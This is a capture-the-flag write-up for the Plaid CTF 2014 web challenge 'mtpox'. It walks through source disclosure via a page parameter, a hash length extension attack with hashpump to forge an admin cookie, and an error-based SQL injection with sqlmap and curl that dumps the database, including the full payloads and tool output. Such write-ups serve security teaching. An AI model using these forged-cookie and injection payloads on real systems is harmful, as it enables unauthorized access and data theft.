 # Plaid CTF 2014: mtpox

**Category:** Web
**Points:** 150
**Description:**

> The Plague has traveled back in time to create a cryptocurrency before Satoshi does in an attempt to quickly gain the resources required for his empire. As you step out of your time machine, you learn [his exchange](http://54.211.6.40/) has stopped trades, due to some sort of bug. However, if you could break into the database and show a different story of where the coins went, we might be able to stop The Plague.
>
> Hint: try reading things using `?page=`.

## Write-up

The “Index” link on the website points to [`/index.php?page=index`](http://54.211.6.40/). Playing around with that URL query string parameter reveals that the site is vulnerable to source code disclosure. We exploit this vulnerability to get the source code for [`index.php`](index.php) (via [`/index.php?page=index.php`](http://54.211.6.40/index.php?page=index.php)) and [`admin.php`](admin.php) (via [`/index.php?page=admin.php`](http://54.211.6.40/index.php?page=admin.php)).

(TODO: explain hash length extension attack)

Hash Length Extension attack:
    http://en.wikipedia.org/wiki/Length_extension_attack
    https://github.com/bwall/HashPump
    https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks

```bash
$ hashpump -s 'ef16c2bffbcf0b7567217f292f9c2a9a50885e01e002fa34db34c0bb916ed5c3' -d ';0:b' -a ';1:b' -k '8967ca6fa9eacfe716cd74db1b1db85800e451ca85d29bd27782832b9faa16ae1'
;0:b\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00`;1:b
```

Don't forget to reverse this string and URL-encode it! This cookie works:

```
auth=b%3a1%3b%60%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%80b%3a0%3b; hsh=967ca6fa9eacfe716cd74db1b1db85800e451ca85d29bd27782832b9faa16ae1
```

The `query` URL parameter for [`admin.php`](http://54.211.6.40/admin.php?query=lol) is vulnerable to SQL injection. Let’s see what kind of data we can leak using [`sqlmap`](http://sqlmap.org/):

```bash
$ sqlmap.py -u 'http://54.211.6.40/admin.php?query=abc' --cookie='auth=b%3a1%3b%60%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%80b%3a0%3b; hsh=967ca6fa9eacfe716cd74db1b1db85800e451ca85d29bd27782832b9faa16ae1' --dump-all

    sqlmap/0.9 - automatic SQL injection and database takeover tool
    http://sqlmap.sourceforge.net

[*] starting at: 21:23:38

[21:23:38] [INFO] using '/usr/local/Cellar/sqlmap/0.9/output/54.211.6.40/session' as session file
[21:23:38] [INFO] testing connection to the target url
[21:23:38] [INFO] testing if the url is stable, wait a few seconds
[21:23:40] [INFO] url is stable
[21:23:40] [INFO] testing if GET parameter 'query' is dynamic
[21:23:40] [INFO] confirming that GET parameter 'query' is dynamic
[21:23:40] [INFO] GET parameter 'query' is dynamic
[21:23:40] [INFO] heuristic test shows that GET parameter 'query' might be injectable (possible DBMS: MySQL)
[21:23:40] [INFO] testing sql injection on GET parameter 'query'
[21:23:40] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[21:23:42] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause'
[21:23:43] [INFO] GET parameter 'query' is 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause' injectable
[21:23:43] [INFO] testing 'MySQL > 5.0.11 stacked queries'
[21:23:43] [INFO] testing 'MySQL > 5.0.11 AND time-based blind'
[21:23:43] [INFO] testing 'MySQL UNION query (NULL) - 1 to 10 columns'
[21:23:45] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
GET parameter 'query' is vulnerable. Do you want to keep testing the others? [y/N] y
sqlmap identified the following injection points with a total of 33 HTTP(s) requests:
---
Place: GET
Parameter: query
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE or HAVING clause
    Payload: query=abc AND (SELECT 1000 FROM(SELECT COUNT(*),CONCAT(CHAR(58,98,119,100,58),(SELECT (CASE WHEN (1000=1000) THEN 1 ELSE 0 END)),CHAR(58,108,110,101,58),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)
---

[21:25:35] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian or Ubuntu
web application technology: Apache 2.2.22, PHP 5.4.4
back-end DBMS: MySQL 5.0
[21:25:35] [INFO] sqlmap will dump entries of all databases' tables now
[21:25:35] [INFO] fetching tables
[21:25:35] [INFO] fetching database names
[21:25:35] [INFO] the SQL query used returns 2 entries
[21:25:35] [INFO] retrieved: information_schema
[21:25:35] [INFO] retrieved: mtpox
[21:25:35] [INFO] the SQL query used returns 41 entries
[21:25:36] [INFO] retrieved: information_schema
[21:25:36] [INFO] retrieved: CHARACTER_SETS
[21:25:36] [INFO] retrieved: information_schema
[21:25:36] [INFO] retrieved: COLLATIONS
[21:25:36] [INFO] retrieved: information_schema
[21:25:37] [INFO] retrieved: COLLATION_CHARACTER_SET_APPLICABILITY
[21:25:37] [INFO] retrieved: information_schema
[21:25:37] [INFO] retrieved: COLUMNS
[21:25:37] [INFO] retrieved: information_schema
[21:25:38] [INFO] retrieved: COLUMN_PRIVILEGES
[21:25:38] [INFO] retrieved: information_schema
[21:25:38] [INFO] retrieved: ENGINES
[21:25:38] [INFO] retrieved: information_schema
[21:25:38] [INFO] retrieved: EVENTS
[21:25:39] [INFO] retrieved: information_schema
[21:25:39] [INFO] retrieved: FILES
[21:25:39] [INFO] retrieved: information_schema
[21:25:39] [INFO] retrieved: GLOBAL_STATUS
[21:25:39] [INFO] retrieved: information_schema
[21:25:40] [INFO] retrieved: GLOBAL_VARIABLES
[21:25:40] [INFO] retrieved: information_schema
[21:25:40] [INFO] retrieved: KEY_COLUMN_USAGE
[21:25:40] [INFO] retrieved: information_schema
[21:25:40] [INFO] retrieved: PARAMETERS
[21:25:41] [INFO] retrieved: information_schema
[21:25:41] [INFO] retrieved: PARTITIONS
[21:25:41] [INFO] retrieved: information_schema
[21:25:41] [INFO] retrieved: PLUGINS
[21:25:42] [INFO] retrieved: information_schema
[21:25:42] [INFO] retrieved: PROCESSLIST
[21:25:42] [INFO] retrieved: information_schema
[21:25:42] [INFO] retrieved: PROFILING
[21:25:42] [INFO] retrieved: information_schema
[21:25:43] [INFO] retrieved: REFERENTIAL_CONSTRAINTS
[21:25:43] [INFO] retrieved: information_schema
[21:25:43] [INFO] retrieved: ROUTINES
[21:25:43] [INFO] retrieved: information_schema
[21:25:43] [INFO] retrieved: SCHEMATA
[21:25:44] [INFO] retrieved: information_schema
[21:25:44] [INFO] retrieved: SCHEMA_PRIVILEGES
[21:25:44] [INFO] retrieved: information_schema
[21:25:44] [INFO] retrieved: SESSION_STATUS
[21:25:45] [INFO] retrieved: information_schema
[21:25:45] [INFO] retrieved: SESSION_VARIABLES
[21:25:45] [INFO] retrieved: information_schema
[21:25:45] [INFO] retrieved: STATISTICS
[21:25:45] [INFO] retrieved: information_schema
[21:25:46] [INFO] retrieved: TABLES
[21:25:46] [INFO] retrieved: information_schema
[21:25:46] [INFO] retrieved: TABLESPACES
[21:25:46] [INFO] retrieved: information_schema
[21:25:46] [INFO] retrieved: TABLE_CONSTRAINTS
[21:25:47] [INFO] retrieved: information_schema
[21:25:47] [INFO] retrieved: TABLE_PRIVILEGES
[21:25:47] [INFO] retrieved: information_schema
[21:25:47] [INFO] retrieved: TRIGGERS
[21:25:47] [INFO] retrieved: information_schema
[21:25:48] [INFO] retrieved: USER_PRIVILEGES
[21:25:48] [INFO] retrieved: information_schema
[21:25:48] [INFO] retrieved: VIEWS
[21:25:48] [INFO] retrieved: information_schema
[21:25:49] [INFO] retrieved: INNODB_BUFFER_PAGE
[21:25:49] [INFO] retrieved: information_schema
[21:25:49] [INFO] retrieved: INNODB_TRX
[21:25:49] [INFO] retrieved: information_schema
[21:25:49] [INFO] retrieved: INNODB_BUFFER_POOL_STATS
[21:25:50] [INFO] retrieved: information_schema
[21:25:50] [INFO] retrieved: INNODB_LOCK_WAITS
[21:25:50] [INFO] retrieved: information_schema
[21:25:50] [INFO] retrieved: INNODB_CMPMEM
[21:25:50] [INFO] retrieved: information_schema
[21:25:51] [INFO] retrieved: INNODB_CMP
[21:25:51] [INFO] retrieved: information_schema
[21:25:51] [INFO] retrieved: INNODB_LOCKS
[21:25:51] [INFO] retrieved: information_schema
[21:25:51] [INFO] retrieved: INNODB_CMPMEM_RESET
[21:25:52] [INFO] retrieved: information_schema
[21:25:52] [INFO] retrieved: INNODB_CMP_RESET
[21:25:52] [INFO] retrieved: information_schema
[21:25:52] [INFO] retrieved: INNODB_BUFFER_PAGE_LRU
[21:25:53] [INFO] retrieved: mtpox
[21:25:53] [INFO] retrieved: plaidcoin_wallets
[21:25:53] [INFO] fetching columns for table 'plaidcoin_wallets' on database 'mtpox'
[21:25:53] [INFO] the SQL query used returns 2 entries
[21:25:53] [INFO] retrieved: id
[21:25:54] [INFO] retrieved: varchar(40)
[21:25:54] [INFO] retrieved: amount
[21:25:54] [INFO] retrieved: int(30)
[21:25:54] [INFO] fetching entries for table 'plaidcoin_wallets' on database 'mtpox'
[21:25:54] [INFO] the SQL query used returns 1 entries
[21:25:54] [INFO] retrieved: 1333337
[21:25:55] [INFO] retrieved: flag{phpPhPphpPPPphpcoin}
Database: mtpox
Table: plaidcoin_wallets
[1 entry]
+---------+---------------------------+
| amount  | id                        |
+---------+---------------------------+
| 1333337 | flag{phpPhPphpPPPphpcoin} |
+---------+---------------------------+

[21:25:55] [INFO] Table 'mtpox.plaidcoin_wallets' dumped to CSV file '/usr/local/Cellar/sqlmap/0.9/output/54.211.6.40/dump/mtpox/plaidcoin_wallets.csv'
[21:25:55] [INFO] fetching columns for table 'CHARACTER_SETS' on database 'information_schema'
[21:25:55] [INFO] the SQL query used returns 4 entries
[21:25:55] [INFO] retrieved: CHARACTER_SET_NAME
…
```

The flag is `flag{phpPhPphpPPPphpcoin}`.

For the record, the payload `sqlmap` used to get the flag was:

```bash
$ curl --cookie 'auth=b%3a1%3b%60%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%80b%3a0%3b; hsh=967ca6fa9eacfe716cd74db1b1db85800e451ca85d29bd27782832b9faa16ae1' 'http://54.211.6.40/admin.php?query=abc%20AND%20%28SELECT%203497%20FROM%28SELECT%20COUNT%28%2A%29%2CCONCAT%28CHAR%2858%2C103%2C99%2C121%2C58%29%2C%28SELECT%20MID%28%28IFNULL%28CAST%28id%20AS%20CHAR%29%2CCHAR%2832%29%29%29%2C1%2C50%29%20FROM%20mtpox.plaidcoin_wallets%20LIMIT%200%2C1%29%2CCHAR%2858%2C118%2C117%2C112%2C58%29%2CFLOOR%28RAND%280%29%2A2%29%29x%20FROM%20information_schema.tables%20GROUP%20BY%20x%29a%29'
Query failed: Duplicate entry ':gcy:flag{phpPhPphpPPPphpcoin}:vup:1' for key 'group_key'
```

## Other write-ups

* <http://conceptofproof.wordpress.com/2014/04/13/plaidctf-2014-web-150-mtgox-writeup/>
